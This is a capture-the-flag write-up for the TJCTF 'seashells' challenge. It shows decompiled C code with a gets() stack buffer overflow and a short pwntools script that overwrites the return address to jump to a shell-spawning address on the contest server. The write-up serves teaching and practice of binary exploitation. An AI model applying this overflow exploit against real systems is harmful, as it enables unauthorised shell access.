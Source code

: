 # TJCTF: binary

Written by KyleForkBomb

_I heard there's someone selling shells? They seem to be out of stock though..._

`nc p1.tjctf.org 8009`

## Beginnings

Starting the program will look like this: 
```sh
$ ./seashells
Welcome to Sally's Seashore Shell Shop
Would you like a shell?
yes!!!!!  <-- user input
why are you even here?
```

And the associated (stripped) decompiled code:
```c
int main() {
  char s1[0xA];
  puts("Welcome to Sally's Seashore Shell Shop");
  puts("Would you like a shell?");
  gets(s1, 0LL);
  if ( !strcasecmp(s1, "yes") )
    puts("sorry, we are out of stock");
  else
    puts("why are you even here?");
  return 0;
}
```


## code
```python
from pwn import *
binsh = 0x4006E3
to_r = 0xA+8
r = remote('p1.tjctf.org', 8009)
r.sendlineafter('?\n', to_r*'A' + p64(binsh))
r.interactive()
```

